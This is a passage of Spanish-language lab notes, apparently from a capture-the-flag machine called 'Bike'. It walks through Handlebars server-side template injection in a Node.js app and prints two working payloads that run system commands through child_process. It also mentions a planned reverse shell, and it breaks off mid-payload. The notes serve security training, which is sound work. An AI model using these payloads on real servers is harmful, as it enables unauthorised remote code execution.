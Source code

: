 Probamos poner {{7\*7}} y nos da un error que nos redirige a una consola en node.js
![[Bike5.png]]


![[Bike10.png]]

## Interceptamos petición con caido para mandar una [[Reverse shell]]


[Link del articulo hacktriks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejsl) del cual sacamos el payload
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Esto hay que url encodearlo, hacemos click derecho seleccionando todo el texto y en convert, ponemos URL Enconde

![[Bike8.png]]

Este es el resultado final del payload url encodeado
![[Bike7.png]]


## Ajustamos el payload con variables globales para que funcione

Vamos a ajustar con variables globales el payload, para que nos de una respuesta y probar si sirve o no el mismo
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
```